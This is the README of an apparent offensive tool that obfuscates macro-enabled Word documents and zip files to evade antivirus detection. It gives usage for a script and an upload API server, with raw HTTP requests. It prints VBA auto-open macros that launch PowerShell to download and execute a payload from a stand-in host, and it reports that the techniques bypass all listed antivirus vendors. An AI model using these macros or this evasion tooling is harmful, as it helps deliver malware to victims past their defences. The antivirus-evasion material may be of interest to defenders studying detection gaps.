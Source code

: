 # docm_obfuscator
https://arielkoren.com/blog/2020/12/24/forging-malicious-doc/


Obfuscate a macro-containing Word doc (optionally within a .zip file) using "File Buffer Collapsing", "Ghost File", or "Invalid Header" techniques (or a combination)

## Usage

### Run Script Directly

```
usage: obfuscate_file.py <in_file> <obfuscation_technique>
       obfuscate_file.py unmodified.zip buffer_collapse
       
in_file                The file to obfuscate. Can be a macro-embedded Word doc (.docm), or a .zip file
                       containing one or more .docm

obfuscation_technique  Obfuscation technique to use

                       buffer_collapse      "File Buffer Collapse" - Macro's Local File Header embedded
                                             in compressed data section of another Local File Header
                       ghost_file           "Ghost File" - Local File Header for macro included without
                                             corresponding Central Directory File Header
                       invalid_header       "Invalid File Header" - Local File Header for macro is 
                                             corrupted with invalid CRC-32
                       invalid_plus_buffer  "Invalid File Header" + "File Buffer Collapse"
                       invalid_plus_ghost   "Invalid File Header" + "Ghost File"
    
```

### API Server
Starts an API server for uploading files for obfuscation, and downloading files previously uploaded for obfuscation.

An upload form is hosted at /

Alternately, POST and GET requests can be made as shown below to directly obfuscate/retrieve files.

```
usage: server.py [-h] [-l LHOST] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -l LHOST, --lhost LHOST
                        The bind address to listen on
  -p PORT, --port PORT  The port to listen on

```

#### POST - Send doc/zip for obfuscation

Request:

cname - custom filename to save the obfuscated output with

obfuscation - obfuscation technique to apply (same options as directly running obfuscate_file.py)

file - raw bytes of file to upload

```
POST / HTTP/1.1
Host: localhost.:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------4907851351774763772443316270
Content-Length: 16409
Origin: http://localhost.:8000
Connection: close
Referer: http://localhost.:8000/
Upgrade-Insecure-Requests: 1

-----------------------------4907851351774763772443316270
Content-Disposition: form-data; name="cname"

obfuscated_doc.docm
-----------------------------4907851351774763772443316270
Content-Disposition: form-data; name="obfuscation"

invalid_plus_buffer
-----------------------------4907851351774763772443316270
Content-Disposition: form-data; name="file"; filename="bad_doc.docm"
Content-Type: application/vnd.ms-word.document.macroEnabled.12

PK... zip file content...
...
-----------------------------4907851351774763772443316270--
```

Response:
```
HTTP/1.0 200 File obfuscated_doc.docm uploaded successfully with invalid_plus_buffer obfuscation applied
Server: BaseHTTP/0.6 Python/3.7.3
Date: Sat, 02 Jan 2021 18:06:05 GMT
```

#### GET - Retrieve Obfuscated doc/zip

```
GET /obfuscated_doc.docm HTTP/1.1
Host: localhost.:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

## Detections

### Virustotal

#### Malicious .docm

The file "unmodified.docm" (in the artifacts folder on this repo) contains the following macro.
A message box is popped, then Powershell is spawned and a download from `'http://example.com/malicious/payload.exe'` is attempted


```
Private Sub Document_Open()
  MsgBox "Macro popping Powershell!", vbOKOnly, "game over"
  a = Shell("powershell.exe -noexit -Command ""IEX ((new-object net.webclient).downloadstring('http://example.com/malicious/payload.exe'))""", 1)
End Sub
```

Without any obfuscation applied, the doc is extensively detected as malicious:

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/unmodified.png?raw=true)

With some of the obfuscation techniques:

"Ghost File"

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/ghost_file.png?raw=true)

"Invalid File Header + File Buffer Collapsing"

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/invalid_plus_buffer.png?raw=true)


#### Zip containing malicious .docm

The file "unmodified.zip" (in the artifacts folder on this repo) contains the file "unmodified.docm" referenced above, along with 2 other files.
No compression/store has been used.

Unmodified

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/unmodified_zip.png?raw=true)

"Invalid File Header + Ghost File"

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/invalid_plus_ghost_zip.png?raw=true)

"Invalid File Header + File Buffer Collapsing"

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/invalid_plus_buffer_zip.png?raw=true)


## Further Notes

Sangfor Engine Zero was the only antivirus to detect files obfuscated with File Buffer Collapsing combined with another technique.
However, Sangfor was not among the 8 vendors that detected the "Ghost File" technique; thus all the provided vendors can be bypassed with one or a combination of the included techniques.

As referenced in the blog post, these techniques will result in 2 error messages upon opening the obfuscated file. Both messages must be accepted
("Yes" and "Open") for the macro to trigger.

Error 1

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/error1.png?raw=true)

Error 2

![alt text](https://github.com/jasonb17/docm_obfuscator/blob/main/images/error2.png?raw=true)

Interestingly, if a slightly different and equally functional Powershell command is used within the VBA macro, only Error 1 is triggered.
```
Private Sub Document_Open()
  MsgBox "Macro popping Powershell!", vbOKOnly, "game over"
  a = Shell("powershell.exe -noexit -Command ""IWR 'http://example.com/malicious/payload.exe'""", 1)
End Sub
```

This command also appeared to result in a slightly lower initial detection numbers on VirusTotal.
